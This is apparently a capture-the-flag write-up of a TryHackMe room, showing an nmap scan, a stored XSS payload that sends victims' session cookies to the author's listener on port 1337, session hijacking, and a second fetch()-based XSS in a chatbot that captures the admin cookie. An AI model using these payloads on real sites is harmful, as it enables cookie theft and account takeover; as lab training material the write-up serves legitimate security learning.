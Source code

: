```yaml
---
title: "TryHackMe - What's Your Name?"
date: 2025-06-20 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [xss, CSRF, cookie, chat bot ]
--- 
```



This challenge will test client-side exploitation skills, from inspecting Javascript to manipulating cookies to launching CSRF/XSS attacks.

## Reconnaissance

I started with a full port scan using **nmap** to identify open services on the target machine:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap  -T4 -sV -sC -p- 10.10.26.74 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-20 06:44 EDT
Nmap scan report for worldwap.thm (10.10.26.74)
Host is up (0.061s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dd:53:33:5b:68:eb:0b:e0:0a:2a:f0:fa:a3:5e:93:10 (RSA)
|   256 00:87:b6:51:1e:89:b6:30:67:33:36:c2:e6:30:dc:5d (ECDSA)
|_  256 5b:5e:b7:d6:24:3a:0a:d1:c5:cf:37:9a:e5:b9:df:ec (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Welcome
|_Requested resource was /public/html/
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Scan results : 

- 22/tcp   open  ssh     OpenSSH 8.2p1 (Ubuntu)
- 80/tcp   open  http    Apache httpd 2.4.41
- 8081/tcp open  http    Apache httpd 2.4.41

## Web enumaration

After adding the domain `worldwap.thm` to my `/etc/hosts` file, I visited the website. The main page allowed me to register an account. After successful registration, I saw a message:

> "You'd need to visit login.worldwap.thm to login once you register successfully."

![1](/images/whatsyourname/1.jpg)

I added that subdomain to my hosts file too and navigated to it.

The page was blank at first glance, but checking the source code revealed this comment:


![2](/images/whatsyourname/2.jpg)
So I manually visited http://login.worldwap.thm/login.php and found a login form.

![3](/images/whatsyourname/3.jpg)

Unfortunately, the credentials I created earlier didn’t work.
![3b](/images/whatsyourname/3b.jpg)

## Stealing a Moderator's Cookie via XSS 

Suspecting a vulnerability, I attempted to inject a simple XSS payload by sending an email that contained this script: 

![4](/images/whatsyourname/4.jpg)

```
<script>new Image().src='http://10.23.x.x:1337/log?c='+document.cookie</script>
```
> This script sends the victim’s cookies to my server running on port 1337.

I hosted a listener with Python:

```
sudo python3 -m http.server 1337
```


And it worked! I received requests with the following data:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.26.74 - - [20/Jun/2025 07:06:00] code 404, message File not found
10.10.26.74 - - [20/Jun/2025 07:06:00] "GET /log?c=PHPSESSID=8ss9dd7o48h9821sttmv66vjrh HTTP/1.1" 404 -
10.10.26.74 - - [20/Jun/2025 07:07:01] code 404, message File not found
10.10.26.74 - - [20/Jun/2025 07:07:01] "GET /log?c=PHPSESSID=7c42qdip0p52292bvpfkh79pop HTTP/1.1" 404 
```

## Using the Stolen Session

I copied one of the stolen PHPSESSID values and injected it into my browser cookies. Then I reloaded http://login.worldwap.thm/login.php and logged in using the default credentials: hacker:hacker.

This time, I was successfully logged in as a moderator.


![5](/images/whatsyourname/5.jpg)
![6](/images/whatsyourname/6.jpg)



## Eploiting the Chat Bot with XSS again

On the moderator page, I noticed a chatbot feature. I tested it for XSS and, unsurprisingly, it was also vulnerable.


![7](/images/whatsyourname/7.jpg)



I sent the following payload to the chatbot:



```
<script>
fetch("/chat.php", {
    "credentials": "include",
    "headers": {
        "Content-Type": "application/x-www-form-urlencoded"
    },
    "body": "message="+document.cookie,
    "method": "POST",
    "mode": "cors"
});
</script>
```

 **What Does This Script Do?**

- fetch(): A modern JavaScript API for making HTTP requests.

- /chat.php: The endpoint used by the chatbot.

- credentials: "include": Ensures the victim's cookies are included in the request.

- body: "message="+document.cookie: Sends the session cookie in the message field.

This trick allowed me to capture the admin's session cookie.

## Admin Access Achieved 

After replacing my browser cookie with the stolen admin session, I refreshed the page and was immediately logged in as the administrator.

![8](/images/whatsyourname/8.jpg)